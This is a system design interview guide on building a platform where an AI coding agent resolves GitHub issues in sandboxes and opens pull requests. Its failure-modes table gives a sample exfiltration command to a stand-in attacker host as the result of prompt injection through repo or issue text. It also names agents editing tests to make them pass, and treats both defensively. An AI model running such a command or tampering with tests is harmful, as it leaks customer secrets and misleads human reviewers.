

# Design a coding agent platform

[All designs](../README.md#the-15-designs) · [Answer framework](../framework.md) · [Numbers to know](../numbers.md)

**Difficulty:** Hard · **Key trade-off:** agent autonomy and context size vs cost, latency and safety per task · **Round length:** 45 min

> All numbers here are back-of-envelope estimates with the assumptions written out. Swap in the interviewer's numbers and redo the math out loud. That is the skill being tested.

## Problem statement

"Design a platform where developers assign a GitHub issue to an AI agent, and the agent works in the background and opens a pull request that passes the tests." (Representative prompt.)

This is three systems in one: a sandbox fleet that runs untrusted code, a context system that helps a model find its way around a large repo, and an agent loop whose cost grows with every step. The interviewer wants you to name the unit economics (cost per resolved task, not per call) and to treat the repo and the issue text as untrusted input.

## Clarifying questions

| Question | Why it matters | Assumption for this answer |
|---|---|---|
| Background PR agent or in-editor assistant? | Latency budget | Background. Minutes are fine. Interactive autocomplete is a different design |
| How many tasks per day? | Sandbox fleet size | 50k tasks/day across 5k customer orgs |
| Repo sizes? | Clone and index cost | Median 500 MB, largest 10 GB monorepos |
| Can the agent install packages and reach the internet? | Sandbox egress policy | Package registries yes, everything else denied by default |
| Who merges? | Safety bar | A human always reviews and merges. The agent never pushes to main |
| Which languages? | Tooling and tests | Python, TypeScript, Go, Java |
| Do customers bring their own model keys? | Cost model | No. We pay for inference and charge per task |

## Requirements

**Functional**
- Accept a task (issue link or text) and a repo. Return a PR with a description, or a clear failure report.
- Agent can read and search code, edit files, run commands and tests in an isolated environment.
- Users can watch progress live and send follow-up instructions mid-task.
- Respect repo setup: dev containers, setup scripts, test commands.

**Non-functional (targets, not measured)**
- Sandbox ready (repo cloned, deps installed) p95 under 60 s for warm repos.
- Median task completes in under 15 min.
- Hard cap on cost per task, configurable per org.
- No customer code or secret leaves the customer's sandbox except to the model provider and the customer's own git host.
- Sandbox escape blast radius: one task, never another tenant.

## Back-of-envelope estimates

All estimates.

**Sandbox fleet**
1. 50k tasks/day, average 15 min wall clock: 50k × 15 / 1,440 min/day ≈ **~520 concurrent sandboxes** on average.
2. Peak 3x during working hours across time zones: **~1,500**.
3. 2 vCPU and 8 GB RAM each: ~3,000 vCPU and 12 TB RAM at peak. Builds and test suites spike CPU, so allow bursting to 4 to 8 vCPU.

**Tokens per task**
1. ~40 agent steps per task (estimate; easy tasks take 10, hard ones 150).
2. Context grows each step as file reads and command output pile up. Average ~30K tokens of input per step.
3. 40 × 30K = **~1.2M input tokens per task**, ~20K output tokens.
4. Most of each step's input repeats the previous step's prefix. With prompt caching, assume 85% of input hits the cache.

**Cost per task**
1. Uncached at $3 per 1M input and $15 per 1M output (a frontier-model price point, check current pricing): 1.2M × $3/M + 20K × $15/M ≈ $3.60 + $0.30 = **~$3.90**.
2. With 85% cache hits at ~10% of input price: (0.15 × 1.2M × $3/M) + (0.85 × 1.2M × $0.30/M) + $0.30 ≈ $0.54 + $0.31 + $0.30 ≈ **~$1.15**.
3. 50k tasks/day: **~$58k to $195k/day** in inference.
4. If 40% of tasks produce a merged PR, cost per merged PR is ~2.5x cost per task. Report that number. It is the one customers care about.

**Repo storage and clone**
1. 5k orgs × ~20 active repos × 500 MB ≈ **50 TB** of cached repos and dependency layers.
2. Cold clone of a 500 MB repo plus dependency install: 1 to 5 min. That is why warm snapshots matter.

## Architecture

## Component walkthrough

**Sandbox.** The agent runs arbitrary commands from a model that read arbitrary text. Treat it as hostile. Containers share a kernel, so one kernel bug crosses tenants. Use microVMs (Firecracker, the VMM behind AWS Lambda, boots in about 125 ms per its docs, [source](https://firecracker-microvm.github.io/)) or gVisor for a user-space kernel. One sandbox per task, destroyed at the end. No cloud credentials inside. The git token is short-lived, scoped to one repo, and only usable through a proxy that allows push to the agent's branch.

**Warm snapshots.** Cloning and installing dependencies dominates start time. On each push to main, a builder clones, runs the repo's setup script, and snapshots the filesystem (and, with microVMs, optionally memory). A task restores the snapshot and fetches only new commits. Cache per repo per lockfile hash. This turns a 3-minute start into seconds for active repos.

**Egress.** Default deny. Allow package registries through a caching proxy, the model gateway, and the customer's git host. Log every request. This limits both data exfiltration and a prompt-injected agent curling a secret to an attacker.

**Agent loop.** A loop of: model reads state, picks a tool, runner executes it in the sandbox, result goes back into context. The tools are small and concrete: `read_file(path, range)`, `search(regex)`, `find_symbol(name)`, `edit(path, old, new)`, `run(command, timeout)`, `finish(summary)`. The SWE-agent paper showed that the design of this agent-computer interface (compact file views, edit commands that lint before applying, truncated outputs) changes solve rates a lot ([source](https://arxiv.org/abs/2405.15793)). Truncate long command output to head and tail with a note, or a single test run floods the context.

**Context management.** A 40-step run with full history overflows any window and gets slow and expensive. Options, in order of preference: keep tool outputs short at the source; drop old file contents the agent has since edited; summarize earlier steps when context passes a threshold; let the agent write notes to a scratch file it can re-read. Keep the stable prefix (system prompt, tool definitions, task) first so prompt caching hits.

**Code index.** Built by the snapshot builder on each push. A symbol index (definitions and references from language servers or SCIP-style indexers) answers "where is `PaymentService` used?" exactly. Embeddings over files and functions help with "where do we handle retries?". In practice, agents lean heavily on ripgrep and symbol lookup. Embedding search is the third tool, not the first. Index per commit, incrementally.

**Verification.** The agent runs the repo's tests and linters. Before opening a PR, the runner (not the model) runs the test command again and records the result in the PR. A PR that says "tests pass" while CI fails destroys trust in a week. If the repo has no tests for the area, the agent should write one that fails before and passes after the change.

**Durable runner.** A task runs 15 minutes, sometimes 2 hours. Runner processes die. Store the step history as an append-only log, so a new runner resumes from the last completed step against a restored sandbox snapshot. See [design 05](05-multi-tenant-agent-platform-mcp.md) for durable execution in general.

**Budgets.** Hard caps per task on steps, tokens, wall clock and dollars. When a cap hits, the agent writes a failure report: what it tried, what it learned, where it got stuck. A good failure report still has value. A silent timeout has none.

**Human in the loop.** Users can watch the event stream and send a message mid-task, which the runner adds to context on the next step. The agent can also ask a question and pause, which is cheaper than guessing on an ambiguous issue.

## Data and eval plan

| Layer | Metric | How you get labels |
|---|---|---|
| Public benchmark | Resolve rate on SWE-bench Verified | The SWE-bench harness runs hidden tests on each patch ([paper](https://arxiv.org/abs/2310.06770)). Good for comparing models, contaminated and Python-only |
| Internal suite | Resolve rate on 300 to 500 tasks from your own customers' style of repos | Mine merged PRs that came with tests. Revert the fix, give the agent the issue, run the PR's tests |
| Efficiency | Steps, tokens and dollars per resolved task | Trajectory logs |
| Quality | Human review score of diffs: minimal, idiomatic, no unrelated changes | Sampled reviewer grading or calibrated LLM judge |
| Online | PR merge rate, time to merge, revert rate within 30 days, follow-up edits by humans | GitHub data |

Merge rate is the metric customers feel, but it lags by weeks. The internal suite is what you gate model and prompt changes on, see [design 08](08-eval-pipeline-and-regression-gating.md). Anthropic's SWE-bench write-up shows how much the agent scaffold matters next to the model ([source](https://www.anthropic.com/research/swe-bench-sonnet)).

## Trade-offs

| Decision | Option A | Option B | When to pick which |
|---|---|---|---|
| Isolation | microVM | Container | microVM for multi-tenant untrusted code. Containers only for single-tenant, self-hosted deployments |
| Code retrieval | grep + symbols | Embedding search | grep and symbols first, they are exact. Embeddings for vague, concept-level questions in large monorepos |
| Context | Full history | Summarize and prune | Full history for short tasks. Prune past ~60% of the window, keeping the cached prefix stable |
| Model | One frontier model for every step | Frontier planner + cheaper model for simple edits and summaries | One model until cost per task is the problem. Splitting adds failure modes |
| Autonomy | Run to completion | Ask the user when stuck | Ask on ambiguity in the issue. Run to completion on mechanical work |
| Parallel attempts | One attempt | N attempts, pick the one whose tests pass | N attempts when verification is strong and cost allows. It raises resolve rate at N times the cost |

## Failure modes and mitigations

| Failure | Symptom | Mitigation |
|---|---|---|
| Test overfitting | Agent edits the test to make it pass | Diff check flags test changes, runner reruns original tests, reviewer prompt |
| Context overflow | Agent forgets earlier findings, repeats work | Output truncation, pruning, scratch notes file |
| Prompt injection via repo or issue | Agent runs `curl attacker.com?k=$TOKEN` | Default-deny egress, no secrets in sandbox, short-lived scoped git token |
| Infinite loop | Same failing command 20 times | Repeat-action detector, step and dollar caps, failure report |
| Slow cold start | 5 min before the first step | Snapshots per lockfile, prewarm on push |
| Flaky tests | Agent chases a flake | Run tests twice on failure, record known-flaky tests per repo |
| Sandbox escape | Access to another tenant's data | microVM, one task per VM, no shared writable volumes |
| Model provider outage | Tasks stall | Gateway with fallback model ([design 07](07-llm-gateway.md)), durable resume |

## Scaling to 10x

500k tasks/day, ~15,000 concurrent sandboxes at peak.
- **Fleet.** Bin-pack microVMs on bare-metal hosts. Schedule by region near the customer's git host. Spot capacity for the snapshot builder, on-demand for live tasks.
- **Inference.** ~$0.6M to $2M/day at today's prices. Negotiated capacity, prompt caching discipline, and smaller models for sub-steps become worth the complexity. Consider a fine-tuned model for edit application ([design 15](15-fine-tuning-platform-and-lora-serving.md)).
- **Snapshots.** 500 TB of repo and dependency layers. Deduplicate dependency layers across repos by lockfile content hash.
- **Indexing.** Incremental per commit. Only index repos with recent tasks.

## What interviewers probe

Representative follow-ups.
- "What is your cost per merged PR, and how do you bring it down?" (Show the math. Caching, pruning, fewer wasted steps, cheaper sub-step models.)
- "How do you stop the agent from exfiltrating code?" (Egress allowlist, no secrets, scoped tokens, audit logs.)
- "How do you evaluate a change to the system prompt?" (Internal suite of real tasks with hidden tests, resolve rate and cost, then canary.)
- "Why not just use embeddings for everything?" (Exact symbol lookup is more reliable for code. Show when each wins.)
- "The agent made the tests pass by deleting them. How do you catch it?" (Diff policy checks and rerunning the original suite.)
- "A monorepo has 10 GB and a 40-minute test suite. What changes?" (Sparse checkout, targeted test selection from the change set, longer budgets.)

## Companies that ask this

Representative list. These companies build coding agents, code search or developer platforms, so this prompt is on-distribution for their loops. Each guide covers that company's actual rounds.
- [Anysphere (Cursor)](https://www.landed.jobs/resources/guides/anysphere-cursor-ai-interview-guide?utm_source=github&utm_medium=referral&utm_campaign=github-ai-system-design-interview&utm_content=design-04)
- [Cognition](https://www.landed.jobs/resources/guides/cognition-ai-interview-guide?utm_source=github&utm_medium=referral&utm_campaign=github-ai-system-design-interview&utm_content=design-04)
- [Replit](https://www.landed.jobs/resources/guides/replit-ai-interview-guide?utm_source=github&utm_medium=referral&utm_campaign=github-ai-system-design-interview&utm_content=design-04)
- [GitHub](https://www.landed.jobs/resources/guides/github-ai-interview-guide?utm_source=github&utm_medium=referral&utm_campaign=github-ai-system-design-interview&utm_content=design-04)
- [Sourcegraph](https://www.landed.jobs/resources/guides/sourcegraph-ai-interview-guide?utm_source=github&utm_medium=referral&utm_campaign=github-ai-system-design-interview&utm_content=design-04)
- [Poolside](https://www.landed.jobs/resources/guides/poolside-ai-interview-guide?utm_source=github&utm_medium=referral&utm_campaign=github-ai-system-design-interview&utm_content=design-04)

## Further reading

- [SWE-bench: Can Language Models Resolve Real-World GitHub Issues?](https://arxiv.org/abs/2310.06770) (Jimenez et al.). The benchmark and its test-based grading.
- [SWE-agent: Agent-Computer Interfaces Enable Automated Software Engineering](https://arxiv.org/abs/2405.15793) (Yang et al.). Why tool design changes solve rates.
- [Raising the bar on SWE-bench Verified](https://www.anthropic.com/research/swe-bench-sonnet) (Anthropic). A minimal scaffold, its tools and its lessons.
- [Firecracker](https://firecracker-microvm.github.io/). The microVM design used for multi-tenant untrusted code.

[Back to top](#design-a-coding-agent-platform)
